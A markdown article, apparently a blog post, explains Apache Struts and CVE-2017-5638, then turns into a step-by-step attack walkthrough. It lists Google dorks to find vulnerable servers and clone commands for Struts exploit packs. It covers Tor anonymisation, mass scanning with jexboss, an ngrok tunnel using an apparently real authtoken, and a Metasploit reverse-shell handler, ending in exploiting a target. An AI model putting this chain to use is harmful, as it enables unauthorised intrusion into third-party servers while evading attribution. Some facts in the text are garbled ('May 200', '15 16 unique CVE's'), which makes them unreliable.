 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


## What is [Apache Struts](https://www.whitehatsec.com/glossary/content/apache-struts)?

Apache Struts is an open-source web application framework used for creating Java EE web applications. It became a top-level Apache project in 2005. 
Without Apache Struts, a standard Java EE web application receives information to a server through a web form submitted by a client or similar user. The information is then given to a Java Servlet or JavaServer Pages. In the Java Servlet, the information communicated interacts with a database and creates a response in HTML. Similarly, JavaServer Pages can be used to blend Java code and HTML for the same result. 

Since these approaches mix presentation with application logic, they can make maintenance difficult for large projects. Apache struts is used to help amend that.
Apache Struts helps fix the problems created with a standard Java EE web application by separating the model (the application logic that interacts with a database) from the view (HTML pages shown to the client) and from the controller (information that passes between the model and view). Struts provides the controller and promotes the writing of templates for the presentation layer or view. The programmer needs to write the model code and create a central configurate file that binds together model, view, and controller.

## What is Apache Struts 1?
Apache Struts 1 is the first iteration of Struts created in May 200 by Craig McClanahan and donated to the Apache Foundation. Its request-based framework consisted of 3 main components:
 - ***A Request Handler***
 - ***A Response Handler***
 - ***A Tag Library***
 
These worked to simplify the process of handling large projects and supported REST applications in addition to technologies such as SOAP & AJEX. However, due to limitations within Apache Struts 1 it was modified and updated in Struts 2.

## What is Apache Struts 2?
Apache Struts 2 was released in February 2007 and the rebranding of WebWork 2.2. Whilst the same architecture from Struts 1 was the same, the code base was completely different and unlike Struts 1 where requests went directly to the servlet, in Struts 2 requests & responses travel through an interceptor/filter.

## Vulnerabilities within Apache Struts
Struts has had numerous vulnerabilities disclosed, many based on its use of OGNL (Object-Graph Navigation Language). Many of these vulnerabilities have been particularly serious as they allow an attacker to carry out arbitrary remote code execution, potentially allowing complete control of the server. 

The most high-profile Struts exploit happened in September 2017’s Equifax breach, which took advantage of a Struts vulnerability disclosed 6 months earlier. 
Whilst some vulnerabilities were discovered within Struts 1 ( Denial of Service: [CVE-2006-1547](https://www.cvedetails.com/cve/CVE-2006-1547/), Cross Site Scripting: [CVE-2008-2025](https://www.cvedetails.com/cve/CVE-2008-2025/)), most vulnerabilities have been found on Struts 2 with many tied to the usage of OGNL technology.

In 2016 there were 16 unique CVE’s released relating to Apache Struts 2 which like Struts 1 included, Denial of Service & Cross Site Scripting but further included Remote Code Execution and CSRF.

In 2017 there were 15 16 unique CVE’s. It was in 2017 it was discovered that certain versions of the [Apache Struts 2](https://www.whitehatsec.com/blog/apache-struts-cve-2017/) Framework (Struts 2.3.5 – 2.3.31 and 2.5 – 2.5.10) were vulnerable to remote code execution attacks. This allowed attackers to deliver malicious payloads. To prevent these attacks, it was recommended to upgrade to Apache Struts version 2.3.32 or 2.5.10.1.
You’ll gain a comprehensive understanding of the state of application security across the whole software development life cycle by reading through our [latest Stats Report](https://www.whitehatsec.com/resources-category/threat-reports/).

## Apache Struts Vulnerability Testing 
[WhiteHat’s DAST application scanning](https://www.whitehatsec.com/platform/dynamic-application-security-testing/) detects a large number of Struts vulnerabilities using production-safe tests. 

# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

~ intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
~ intitle:"Struts Problem Report" intext:"development mode is enabled."
~ filetype:action
~ filetype:do
~ filetype:java
~ filetype:out
~ filetype:bat
~ filetype:seam
~ filetype:sh
~ filetype:bson
~ filetype:el
~ filetype:pm
~ inurl:login.action
~ inurl:login.do
~ inurl:login.java
~ inurl:index.action
~ inurl:index.do
~ inurl:index.java

## TOOLS

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v4.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~
***or
~~~bash
git clone https://github.com/andrefernandes86/demo-apachestruts-attacker-web.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~
<details>
<summary>Complete Guide</summary>
[netsparker](https://www.netsparker.com/blog/web-security/finding-exploiting-apache-struts-vulnerabilities/)
 <br>
[Related Articles](https://github.com/search?q=apachestruts&type=all)
